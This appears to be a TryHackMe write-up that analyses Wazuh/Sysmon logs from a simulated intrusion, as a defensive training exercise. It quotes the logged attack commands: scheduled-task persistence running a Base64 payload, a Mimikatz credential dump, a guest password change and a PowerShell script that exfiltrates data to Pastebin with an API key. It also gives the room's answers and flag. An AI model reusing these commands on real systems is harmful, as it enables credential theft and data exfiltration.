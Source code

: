 
# TryHackMe: Monday Monitor Challenge


Room URL: https://tryhackme.com/room/mondaymonitor

# Scenario

Swiftspend Finance, the coolest fintech company in town, is on a mission to level up its cyber security game to keep those digital adversaries at bay and ensure their customers stay safe and sound.

Led by the tech-savvy Senior Security Engineer John Sterling, Swiftspend's latest project is about beefing up their endpoint monitoring using Wazuh and Sysmon. They've been running some tests to see how well their cyber guardians can sniff out trouble. And guess what? You're the cyber sleuth they've called in to crack the code!

The tests were run on Apr 29, 2024, between 12:00:00 and 20:00:00. As you dive into the logs, you'll look for any suspicious process shenanigans or weird network connections, you name it! Your mission? Unravel the mysteries within the logs and dish out some epic insights to fine-tune Swiftspend's defences.

## Answer the questions below

### Q1. Initial access was established using a downloaded file. What is the file name saved on the host?

- filter for `localhost` and incloud the `data.win.eventdata.commandLine` field

![Screenshot 2025-05-17 142050](https://github.com/user-attachments/assets/7a70ee03-fd25-4fc7-ab24-8344efadade0)
 

Ans: ***SwiftSpend_Financial_Expenses.xlsm***

---

### Q2. What is the full command run to create a scheduled task?

- filter for `sccheduler` and include `data.win.eventdata.parentCommandLine` field to see what launched the `scheduler` process and how

![Screenshot 2025-05-17 143305](https://github.com/user-attachments/assets/243c47ac-cb4a-4cd2-ac54-73c4e9c47bf3)


- in the parentCommandLine, a scheduled task named `ATOMIC-T1053.005` is being created to execute PowerShell code that:
   - Retrieves a Base64-encoded string from the Windows Registry.
   - Decodes and executes it using `IEX` (Invoke-Expression).
- Technique: [T1053.005 – Scheduled Task/Job: Scheduled Task](https://attack.mitre.org/techniques/T1053/005/)

Ans: ***\"cmd.exe\" /c \"reg add HKCU\\SOFTWARE\\ATOMIC-T1053.005 /v test /t REG_SZ /d cGluZyB3d3cueW91YXJldnVsbmVyYWJsZS50aG0= /f & schtasks.exe /Create /F /TN \"ATOMIC-T1053.005\" /TR \"cmd /c start /min \\\"\\\" powershell.exe -Command IEX([System.Text.Encoding]::ASCII.GetString([System.Convert]::FromBase64String((Get-ItemProperty -Path HKCU:\\\\SOFTWARE\\\\ATOMIC-T1053.005).test)))\" /sc daily /st 12:34\"***

---

### Q3. What time is the scheduled task meant to run?

Ans: ***12:34***

---

### Q4. What was encoded?

- decode ASCII `cGluZyB3d3cueW91YXJldnVsbmVyYWJsZS50aG0=` using [base64decode](https://www.base64decode.org/)

Ans: ***ping www.youarevulnerable.thm***

---

### Q5. What password was set for the new user account?

- filter for the `net` command which is a built-in Windows command-line utility used to manage network resources, user accounts, services, and more.

![Screenshot 2025-05-17 150847](https://github.com/user-attachments/assets/11c74964-01d6-4221-9119-4309ce6babf3)

- `net user guest I_AM_M0NIT0R1NG` the guest account changed the password to `I_AM_M0NIT0R1NG`

Ans: ***I_AM_M0NIT0R1NG***

---

### Q6 What is the name of the .exe that was used to dump credentials?

- filter for `mimikatz`, Mimikatz is an open-source post-exploitation tool used to extract plaintext passwords, hashes, PINs, and Kerberos tickets from memory on Windows systems.

![Screenshot 2025-05-17 152923](https://github.com/user-attachments/assets/a574ad4f-1dc9-41d6-80d7-8ac9aeb4365f)


- the command:
```powershell
C:\Tools\AtomicRedTeam\atomics\T1003.001\bin\x64\memotech.exe  
"sekurlsa::minidump C:\Users\ADMINI~1\AppData\Local\Temp\2\lsass.DMP"  
"sekurlsa::logonpasswords full"  
exit

```
- `memotech.exe ` this is Mimikatz renamed to avoid detection.
- Loads a dump of `lsass.exe` from disk instead of live memory.
- Technique: [OS Credential Dumping: LSASS Memory](https://attack.mitre.org/techniques/T1003/001/)

Ans: ***memotech.exe***
---

### Q7. Data was exfiltrated from the host. What was the flag that was part of the data?

- I filted the log based on the `POST` http request method, if there is data being exfiltered, this method will be used.

![Screenshot 2025-05-17 154033](https://github.com/user-attachments/assets/6ffaa059-984e-4870-86d2-66d546a3542e)

**this is the command in a cleaned-up version**
```powershell
powershell.exe &
{
    $apiKey = "6nxrBm7UIJuaEuPOkH5Z8I7SvCLN3OP0"
    $content = "secrets, api keys, passwords, THM{M0N1T0R_1$_1N_3FF3CT}, confidential, private, wall, redeem..."
    $url = "https://pastebin.com/api/api_post.php"
    
    $postData = @{
        api_dev_key     = $apiKey
        api_option      = "paste"
        api_paste_code  = $content
    }

    $response = Invoke-RestMethod -Uri $url -Method Post -Body $postData
    Write-Host $response
}

```

- This PowerShell script sends sensitive data to **Pastebin** — a website where users can post text anonymously — using their API.

***THM{M0N1T0R_1$_1N_3FF3CT}***
